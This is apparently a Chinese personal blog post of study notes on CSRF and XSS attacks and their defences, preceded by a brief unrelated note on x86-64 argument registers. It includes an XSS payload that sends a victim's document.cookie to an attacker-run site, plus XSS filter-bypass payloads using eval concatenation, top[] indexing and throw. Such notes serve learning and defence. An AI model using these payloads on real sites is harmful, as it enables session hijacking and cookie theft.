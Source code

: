```yaml
---
layout:     post
title:      CSRF与XSS攻击与防御
subtitle:   CSRF与XSS攻击与防御
date:       2023-04-15
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - web安全
---
```


# 64位汇编参数传递
当参数少于7个时，参数从左到右放入rdi,rsi,rdx,rcx,r8,r9
当参数为七个一样时，后面的依次从右至左放入栈中

# CSRF攻击与防御
cross-site request 伪造
1.客户端通过账户密码登录访问网站A
2.网站A验证客户端的账号密码，成功则生成一个sessionID,并返回给客户端存储在浏览器中
3.该客户端tab一个新页面访问了网站B
4.网站B自动触发要求该客户端访问网站A（即在网站B中有链接指向网站A）
5.客户端通过网站B中的连接访问网站A（此时携带有合法的sessionID进行访问网站A的）
6.此时网站A只需检验sessionID是否合法，合法则执行相应的操作

CSRF利用了系统对页面浏览器的信任，XSS则利用了用户对特定网站的信任


CSRF防御方法：
服务端防御：
1.重要数据交互采用POST进行接收
2.使用验证码作为一种辅助手段，只要是涉及到数据交互就先进行验证码验证
3.验证HTTP Referer字段，该字段记录了此次HTTP请求的来源地址
4.为每个表单添加令牌token并验证（可以使用cookie或者session进行构造保护好客户端的cookie)

CSRF攻击能成功在于攻击者可以伪造用户的请求，该请求中所有的用户验证信息都存在于Cookie中抵抗CSRF攻击的关键在于：在请求中放入攻击者所不能伪造的信息，并且该信息不存在于cookie中
我们可以为每一个表单生成一个随机数密钥，并在服务器端建立一个拦截器来验证这个token,如果请求中没有token或者token内容不正确，则认为可能是CSRF攻击而拒绝该请求

该方法套路：1.用户访问某个表单页面
2.服务器生成一个Token，放在用户的Session中
3.在页面表单附带上Token参数，攻击者不知道token，所以不能伪造表单
4.用户提交请求后，服务端验证表单中的Token是否与用户Session中的Token一致，一致则为合法请求

如果用户访问了病毒网站，也想带这个cookie去访问的时候，此时，因为病毒网站无法获取第三方cookie的值，所以他也就无法hash这个随机数

# XSS
cross-site script
xss攻击类似于SQL注入攻击，XSS漏洞分为两种，一种是反射型，一种是存储线性
理论上，所有可输入的地方没有对输入数据进行处理的话，都会存在XSS漏洞

举一个例子：我做了一个超链接http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>
当TOM点击这个链接的时候（假设它已经登录a.com)，浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com b.com是我搭建的网站

存储型的XSS由于攻击代码已经存储到服务器上或者数据库中，所以受害者是很多人

a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码<script>window.open(www.b.com?param="+document.cookie)</script>，保存文章，这时Tom和jack看到了我发布的文章都中招了

#XSS防御
1.完善的过滤体系：只允许输入合法的值，其他值一律过滤掉
2.Html encode 
对标签进行转换
< 变成 &lt
> 变成 &gt
& 变成 &amp
" 变成 quot
空格变成 &nbsp
3.进制javascript读取某些敏感cookie
4.输入内容长度限制

那么上述脚本就会变成文本显示内容

##过滤空格 
用/代替空格

## 过滤关键字 
大小写绕过
双写关键字
字符拼接利用eval
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
利用top
<script>top["al"+"ert"](`xss`);</script>

## 编码绕过 
unicode编码绕过

## 过滤双引号 单引号
1.我们可以使用反引号代替单双引号
2.使用unicode编码绕过

## 过滤括号
使用throw绕过
;throw'=alert\x281\x29'

## 过滤url地址
使用url编码
使用IP，十进制IP
八进制IP
16进制IP
html标签中可用//代替http://
使用中文逗号代替英文逗号